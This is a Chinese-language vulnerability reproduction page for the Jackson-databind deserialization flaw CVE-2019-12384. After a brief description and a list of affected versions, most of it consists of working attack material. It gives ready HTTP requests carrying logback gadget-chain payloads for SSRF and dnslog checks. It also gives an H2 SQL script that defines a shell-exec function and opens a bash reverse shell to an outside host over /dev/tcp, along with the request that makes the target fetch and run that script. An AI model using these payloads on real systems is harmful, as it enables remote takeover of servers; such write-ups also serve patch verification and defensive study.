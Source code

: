 # Jackson-databind 远程代码执行 CVE-2019-12384

## 漏洞描述

多个Redhat产品受此漏洞影响，CVSS评分为8.1，漏洞利用复杂度高。

该漏洞是由于Jackson黑名单过滤不完整而导致，当开发人员在应用程序中通过ObjectMapper对象调用enableDefaultTyping方法时，程序就会受到此漏洞的影响，攻击者就可利用构造的包含有恶意代码的json数据包对应用进行攻击，直接获取服务器控制权限。

## 漏洞影响

受影响版本：

```
Jackson-databind 2.X < 2.9.9.1
```

不受影响版本：

```
Jackson-databind 2.9.9.1
Jackson-databind 2.10
```

## 漏洞复现

### SSRF

```
POST /fuckme HTTP/1.1
Host: 192.168.136.131:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://192.168.136.129:7777/"}]
```

或者直接使用dnslog验证：

```
poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://jcqfpe.dnslog.cn/"}]
```

### RCE

首先在vps上放置一个.sql的文件，内容如下：


```sql
CREATE ALIAS SHELLEXEC AS $ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$;
CALL SHELLEXEC('bash -i >& /dev/tcp/192.168.136.129/7777 0>&1')
```

然后发送payload，请求远程的sql文件，进行RCE


```
POST /fuckme HTTP/1.1
Host: 192.168.136.131:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 164

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.136.129/exp.sql'"}]

```

